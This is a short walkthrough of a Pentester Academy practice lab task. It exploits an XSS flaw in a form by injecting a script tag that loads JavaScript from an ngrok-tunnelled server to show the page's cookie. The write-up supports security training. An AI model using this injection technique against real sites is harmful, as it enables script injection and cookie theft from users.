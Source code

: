 ## Task 9 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/9)</small>

Objectives:

1. Include an external JS file into this page
2. Code inside that JS should pop the cookie inside an alert box

So in this we are supposed to include a external JS which should alert the cookie.

Well finding the cookie is a piece of cake, [`document.cookie`](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie).

SPOILER!!, The post method is vulnerable to XSS. It rendereds the text in `<h2>...</h2>` tag. Since the website is hosted on a domain, using relative path won't work at all and if you are thinking of using `file://` scheme, let me tell you it will work only if the HTML is opened with `file://` scheme.

So what next, any online JS hosting platform? What about gists or github repo? Naah, on requesting raw, they will give you `text/plain` content type, not `application/javascript`

So the best way I came up with is,

1. Creating a file named `alert.js`
2. Adding the following payload
3. Run the python server in that directory `python -m http.server 3000`
4. Tunnel http 3000 port using ngrok `ngrok http 3000`

```js
<script src="{{ngrok_url}}/alert.js"></script>
```

**Note** Replace the `{{ngrok_url}}` with your ngrok tunneled URL

For POC, paste the script in the input tag and hit enter
